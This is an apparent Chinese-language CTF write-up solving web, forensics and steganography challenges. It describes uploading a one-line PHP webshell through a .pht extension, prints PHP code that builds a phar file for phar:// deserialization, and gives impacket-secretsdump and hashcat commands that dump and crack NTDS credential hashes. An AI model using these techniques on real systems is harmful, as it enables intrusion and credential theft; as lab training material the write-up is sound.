# web

## 找色差吗?

查看js代码


F12，控制台输入语句
```js
var _0x268d05 = { 'vFYyb': _0x2f2b('0x1983', 'vXeU'), 'rshMS': function _0x593385(_0x36599a, _0x5f41b7) { return _0x36599a / _0x5f41b7; }, 'xWQRG': function _0x337c99(_0x53c811, _0xe4afa4) { return _0x53c811 - _0xe4afa4; }, 'ZuQxI': function _0x242b7d(_0x4e358a, _0xbefac3) { return _0x4e358a * _0xbefac3; }, 'DCMCO': function _0x1e5dd4(_0x577f5a, _0x2dafd8) { return _0x577f5a > _0x2dafd8; }, 'bPzve': function _0x49960b(_0x43d8c9, _0x3dd75e) { return _0x43d8c9 === _0x3dd75e; }, 'GFiYI': function _0x1a3caa(_0x167948, _0x13fa0c, _0x580fa8) { return _0x167948(_0x13fa0c, _0x580fa8); }, 'rQJbg': _0x2f2b('0x1984', 'F8QA'), 'fwSPi': function _0xbc327(_0x3da5ce, _0x3e3e3c) { return _0x3da5ce(_0x3e3e3c); }, 'GkSez': '4|3|1|0|2', 'UVjif': _0x2f2b('0x1985', ']Z3^'), 'TQMlf': function _0x3c2939(_0x30791e, _0x108e7b) { return _0x30791e > _0x108e7b; } };

var _0x60a0ea = _0x268d05[_0x2f2b('0x1999', '6T2X')];

console['log'](strEnc('find_different_blocks', _0x60a0ea, '8c4f1', 'faf82'));
```
输出的字符串 md5

21E7AE40B06B28439D031D6848F6E5736B28CA5D50DB89BC34468C8195AC002AB593117A1BDAEA972B8C223883FA6443

得到flag

84673edf8a1ab819dadfdb5da4f41cfe

---

## easy upload

上传时进行 FUZZ,发现可以上传pht后缀的文件，上传一个一句话，蚁剑连接，查看flag


赛后看了下官方writeup,好像是非预期解

官方解法是
- 发现存在 index.php~文件，下载得到部分源码
- 经过一番上传测试之后发现文件名中只要含有 php 及其他 php 文件后缀就无法上传
- 但是发现只要不是 php 即可上传，同时由部分源码得知存在 ORZ 类，该类的析构函数会输出 flag
- 同时由源码得，虽然存在 ORZ 类，但是没有反序列化操作，而是将传入 filename 参数会被带入
file_get_contents 中执行。这里可以想到利用 phar://协议和文件上传来进行反序列化。
- 通过如下 php 代码生成 phar 格式文件（注意：要将 php.ini 中的 phar.readonly 选项设置为 Off，
否则无法生成 phar 文件），然后上传至服务器
    ```php
    <?php
        class ORZ{
            public function __destruct(){
            }
        }

        #unlink("phar.phar");
        $phar=new Phar("phar.phar");
        $phar->startBuffering();
        $phar->setStub("GIF89a"."<?php _HALF_COMPILER(); ?>");
        $o = new ORZ();
        $phar->setMetadata($o);
        $phar->addFromString("test.txt","test");
        $phar->stopBuffering();
    ```
- 通过上传构造好的 phar 文件，然后通过 file_get_contents 函数触发其中的反序列化
    - 根据返回得知上传后的文件地址
    - 之后通过 get 传递参数 `filename=phar://ec5decca5ed3d6b8079e2e7e7bacc9f2/phar.phar/test.txt` 即可获得 flag

---

# Misc

## 巨人的秘密

binwalk 跑一下发现有 zip 在里面,直接用 winrar 修复出来,然后改一下后缀名为 zip


通过 010 editor 将图片从图片源文件另存出来并压缩成 zip,确保 CRC 一致


然后进行明文攻击


结合 010 里看到的 DeEgger 可知是 DeEgger Embedder 隐写

解密


根据主办方给出的工具 PixelJihad，用密码 Wings_of_freedom 成功解出


## 阿巴阿巴

这题是赛后参考官方的 writeup 做出来的, 有点绕, 涉及到内存取证 + 磁盘取证 + 字符隐写 + 系统取证,最后的一张张图片尝试解密磁盘和蝌蚪文解2次真的就纯粹恶心选手,不说了,出题人司马.



解压附件,得到一个磁盘和一个内存文件,先将磁盘静态分析(动态分析有可能破坏磁盘原有的附件内容)

DG 打开 vhd ,发现磁盘内容为空



利用 DG 自带的恢复文件功能进行文件恢复.(注:该功能需要 DG 高级版)





可以看到一个 TC 文件,这个缩写可能是 TrueCrypt 的加密磁盘,这里用 VeraCrypt 尝试解密


尝试挂载,需要密码

VHD 磁盘是使用 NTFS 格式的，NTFS 在 Windows vista 后默认会开启磁盘日志，下面动态分析 VHD 文件,<kbd>win</kbd>+<kbd>x</kbd>,选择 <kbd>磁盘管理</kbd>,操作 -- 附加 VHD

这个时候我们使用磁盘取证工具，winhex 查看一下磁盘日志。进入 winhex 按 F9,打开



查看磁盘内容



NTFS 磁盘日志保存在 `$UsnJrnl` 下，分为 `$J` 和 `$Max`，`$J` 记录了文件系统的操作记录，`$Max` 记录文件大小改动。我们这里先查看下 `$JWinhex` 导出 `$J` 文件（路径：`$Extend/$UsnJrnl/$J`）右键选择，选择恢复，指定恢复路径到桌面





使用工具 [UsnJrnl2Csv](https://github.com/jschicht/UsnJrnl2Csv) 进行内容的读取



查看导出的 csv 文件



这里了可以看到多个 txt 的操作记录,由于无法进行还原,尝试用文件名 N2FyHnb@BXR2EQD0@39C 去解密 TC 磁盘，挂载成功，并发现一个加密的 key.7z 压缩包



接下来就是到内存中找压缩包的密码,这里其实有个巧方法就是直接搜索 key.7z
```bash
strings 1z_mem.vmem | grep "key.7z"
```



密码 SSj7MYUMrtPEdOJ!

当然你用 Volatility 最后也会去搜 key.7z , 因为 win10 的内存压缩特性，所以内存取证是没有办法提取 win10 系统内除文本文件以外的大部分文件的。又因为 Cmdscan 等插件对 win10 内存无法使用,所以无法从命令行中得到密码

解压 key.7z,得到一个表情包文件夹



通过检测可知都没有隐写数据。联想到文件夹，猜测可能文件本身是密钥。

VeraCrypt 有一个功能是可以在正常的加密磁盘中生成隐藏磁盘，使用不同的密钥可以解开不同的磁盘。故此我们尝试使用 VeraCrypt 文件密钥，需要先把 One is a key 文件夹从磁盘中复制到桌面，然后逐个尝试。



这里尝试到 931377d26d30102077f706f00f26c146.jpg 时挂载成功,由于每次解密失败都会无响应,所以比较考验选手耐心



但是打开磁盘发现什么内容都没有，使用 winhex 查看下。同样是按 F9 调出磁盘。



将 阿巴阿巴.txt 导出



用蝌蚪文解密工具进行解密2次 http://www.megaemoji.com/cn/generators/tadpole/




---

## NTDS

题目给的压缩包里有4个附件



解压, flag.zip 是加密的，info 给的提示如下



winRAR 查看 flag.zip 注释说是某个用户的 ntml hash



看来需要通过 S 和 n 文件解压 flag.zip

kali 下 file 分析2个文件



n 分析出是 Extensible storage engine DataBase,结合题目名称和压缩包注释,基本上断定是 ntds.dit 文件,而 ntds.dit 解密需要结合 SYSTEM 文件,所以 S 文件也确定了

使用 Impacket 的 secretsdump 模块进行解密
```bash
impacket-secretsdump -system S -ntds n LOCAL
```



可以看到报错了, 结合 info 和 Impacket 报错提示, 这里要修复 S 文件, 将 uegf 改为 regf

010 编辑器打开 S 文件，进行修改





然后继续解密
```bash
impacket-secretsdump -system S1 -ntds n LOCAL
```



这里需要使用 flag 用户的ntml hash 进行解密



解密后查看 hint.txt



通过上面的规则，参考 hash 掩码规则，进行爆破
```bash
hashcat -m 1000 hash.txt -a 3 ?u?l?d?l?l?l?l?lre
```



得到 flag{8752f02b97c0d66dbacedd4185297724}



---

# 创新组

## blueshark

binwalk 发现了一个 7z 的压缩包，直接当成压缩包打开，发现有个 password_is_Bluetooth_PIN.txt文件


Ctrl + F，选择 分组详情 或者 分组列表，字符串 或者 正则表达式，搜 pin。


PIN 就是 141854。

用来解压就可以得到 flag。

6da01c0a419b0b56ca8307fc9ab623eb
